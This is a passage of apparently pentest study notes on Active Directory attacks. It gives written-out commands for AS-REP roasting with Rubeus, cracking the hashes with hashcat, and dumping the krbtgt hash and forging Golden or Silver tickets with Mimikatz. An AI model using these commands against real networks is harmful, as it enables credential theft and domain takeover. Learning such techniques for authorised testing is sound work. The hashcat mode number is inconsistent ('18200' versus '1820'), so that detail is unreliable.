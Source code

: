 This attack require users with pre-authentication disabled.


 > 
 > **<font color=red>Rubeus.exe asreproast</font>**</br>
  
 > Dump Kerberos hashes of AS_REProastable users. (Then Insert `23$` after `$krb5asrep$` and use `hashcat -m 18200`).


 > 
 > **<font color=red>hashcat -a 0 -m 1820</font> myHash.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack Kerberos KRB_AS_REP hash.

# Golden/Silver Ticket

---

### MIMIKATZ

### Principle

Forge a special ticket and then is it with Pass the Ticket Attack to gain elevated privileges. 
A Golden Ticket is TGT (Ticket Granting Ticket).
A Silver Ticker is TGS (Ticket Granting Service).

### Requirements


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure that current user has administrator privileges (the output should be `[output '20' OK]`). This indicates that debugging a process is possible.

### Hands On (MIMIKATZ)


 > 
 > **<font color=red>lsadump::lsa /inject /name:</font>krbtgt**</br>
 > Dump hash and security identifier required to create a Golden Ticket. 

Note: To create a Silver Ticket, change the `/name:` to a domain admin account or a service account.

![exploit-lsadump-golden_ticket.png](../attachments/exploit-lsadump-golden_ticket.png)
Credit: TCM Security

 > 
 > **<font color=red>kerberos::golden /user:</font>Administrator <font color=red>/domain:</font>mycontroller.local <font color=red>/sid:</font>S-1-5-21-432953485-3795405108-1502158860  <font color=red>/krbtgt:</font>72cd714611b64cd4d5550cd2759db3f6 <font color=red>/id:500 /ptt</font>**</br>
 > Create a golden ticket (`/ptt` stands for Pass The Ticket, if we don’t put it, the command will save the ticket to a file).
